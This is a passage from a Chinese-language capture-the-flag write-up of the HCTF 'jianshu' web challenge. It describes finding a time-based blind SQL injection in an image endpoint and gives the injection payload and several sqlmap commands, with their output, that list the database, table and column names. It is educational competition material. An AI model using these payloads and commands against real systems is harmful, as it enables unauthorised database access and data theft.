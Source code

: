 flag：``hctf{J_do_mo_xyz_!_123_HAHA_lee}``

##jianshu（400pt）

这题比较坑，一开始陷入了出题者xss的奇淫贱术中，通过xss拿到了提交content查看的url ``http://121.41.37.11:25045/get.php?user=V1ew`` 和 合法访问的ip地址：``218.75.123.186``

期间访问 ``http://121.41.37.11:25045/get.php?user=`` 时提示在数据库中的log去找 ``user`` 所对应的可选值。

后来发现根目录下有张图片 ``2.jpg``，内容是 ``sqlmap`` 的介绍，然后开始寻找注入点，在 ``http://121.41.37.11:25045/img.php?file=1.jpg`` 这里发现了猫腻，此处存在盲注：

	http://121.41.37.11:25045/img.php?file=' or if((32=32),sleep(10),2)%231.jpg
	
然后直接丢进sqlmap开始跑：

	sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 --dbs 
	
跑出3个库：

	available databases [3]:
	[*] information_schema
	[*] t2_db
	[*] test
	
``information_schema`` 和 ``test`` 都没什么好看的，直接跑 ``t2_db`` 的表：

	sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 -D t2_db --tables
	
得到3张表：
	
	Database: t2_db
	[3 tables]
	+---------+
	| content |
	| file    |
	| log     |
	+---------+
	
tips叫我们去看log的信息，就直接跑log的字段吧：

	sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 -D t2_db -T log --columns
	
结果显示只有2个字段：

	Database: t2_db
	Table: log
	[2 columns]
	+--------+------+
	| Column | Type |
	+--------+------+
	| param  | text |
	| type   | text |
	+--------+------+
	